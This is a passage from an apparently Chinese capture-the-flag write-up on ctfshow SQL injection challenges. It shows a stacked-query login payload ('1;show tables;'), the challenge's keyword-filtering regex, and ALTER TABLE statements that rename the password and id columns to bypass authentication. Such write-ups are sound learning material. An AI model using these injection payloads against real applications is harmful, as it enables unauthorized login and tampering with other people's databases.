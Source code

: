 
这里正好 空格也放出来了 所以我们就可以使用这种方法登入

```cobol
username = 1;show tables;
password = ctfshow_user
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/65842330feb29cab386cc34bd4fb69aa.png" alt="" style="max-height:570px; box-sizing:content-box;" />


## web198 sql使字段的值互换

```php
 
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
```

空格没被过滤

上一题payload继续打

然后这里在翻阅wp的时候发现了还有一种很新奇的方法

通过转变字段实现

这里使用的语句是

```sql
alter table ctfshow_user change column `pass` `ppp` varchar(255)
```

这里是一种修改字段值的方式 我们本地测试一下

首先我们记住原本的模样



<img src="https://i-blog.csdnimg.cn/blog_migrate/e0fad8b44928f02eddf21b0126feb622.png" alt="" style="max-height:93px; box-sizing:content-box;" />


然后这个时候其实就是修改字段名字

```sql
alter table user change column `passwd` `ppp` varchar(255);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3bf9f891d8a18dcabd99f24bb698b490.png" alt="" style="max-height:132px; box-sizing:content-box;" />


这个时候 原本名为 passwd的字段变为了 ppp字段

```sql
alter table user change column `id` `passwd` varchar(255);
```
